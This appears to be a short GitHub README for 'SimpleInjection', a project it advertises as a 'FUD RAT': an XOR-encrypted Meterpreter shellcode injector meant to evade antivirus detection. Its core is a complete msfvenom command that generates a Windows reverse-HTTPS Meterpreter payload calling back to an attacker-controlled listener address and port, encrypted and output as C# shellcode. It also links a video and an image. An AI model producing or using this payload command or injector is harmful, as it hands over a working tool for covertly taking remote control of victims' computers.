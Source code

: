 # SimpleInjection
FUD RAT (Xor encrypted Meterpreter, shellcode injector) THIS IS A SOLUTION FOR MONODEVLEOP OR VISUAL STUDIO

watch my video on Youtube: https://youtu.be/9TmrtGeIiUY

to generate shellcode:

msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.56.1 lport=4444 --encrypt xor --encrypt-key byte4RR4Y -f csharp


![7R5CcVwJfzn3](https://user-images.githubusercontent.com/121404035/210647849-107fb416-314d-4eeb-a4e1-ef55199f8b42.png)
